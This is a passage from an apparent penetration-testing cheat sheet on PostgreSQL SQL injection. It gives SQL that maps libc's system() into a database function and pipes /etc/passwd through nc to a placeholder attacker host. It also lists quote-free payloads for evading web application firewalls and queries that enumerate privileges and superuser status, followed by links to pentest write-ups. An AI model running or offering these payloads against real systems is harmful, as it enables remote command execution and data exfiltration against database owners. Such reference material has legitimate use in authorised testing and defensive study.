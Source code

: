 ### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## PostgreSQL WAF Bypass

### Alternative to Quotes

| Payload            | Technique |
| ------------------ | --------- |
| `SELECT CHR(65)\|\|CHR(66)\|\|CHR(67);` | String from `CHR()` |
| `SELECT $TAG$This` | Dollar-sign ( >= version 8 PostgreSQL)   |

## PostgreSQL Privileges

### PostgreSQL List Privileges

Retrieve all table-level privileges for the current user, excluding tables in system schemas like `pg_catalog` and `information_schema`.

```sql
SELECT * FROM information_schema.role_table_grants WHERE grantee = current_user AND table_schema NOT IN ('pg_catalog', 'information_schema');
```

### PostgreSQL Superuser Role

```sql
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## References

* [A Penetration Tester's Guide to PostgreSQL - David Hayter - July 22, 2017](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Advanced PostgreSQL SQL Injection and Filter Bypass Techniques - Leon Juranic - June 17, 2009](https://www.infigo.hr/files/INFIGO-TD-2009-04_PostgreSQL_injection_ENG.pdf)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - GreenWolf - March 20, 2019](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [Postgres SQL Injection Cheat Sheet - @pentestmonkey - August 23, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* [PostgreSQL 9.x Remote Command Execution - dionach - October 26, 2017](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
* [SQL Injection /webApp/oma_conf ctx parameter - Sergey Bobrov (bobrov) - December 8, 2016](https://hackerone.com/reports/181803)
* [SQL Injection and Postgres - An Adventure to Eventual RCE - Denis Andzakovic - May 5, 2020](https://pulsesecurity.co.nz/articles/postgres-sqli)
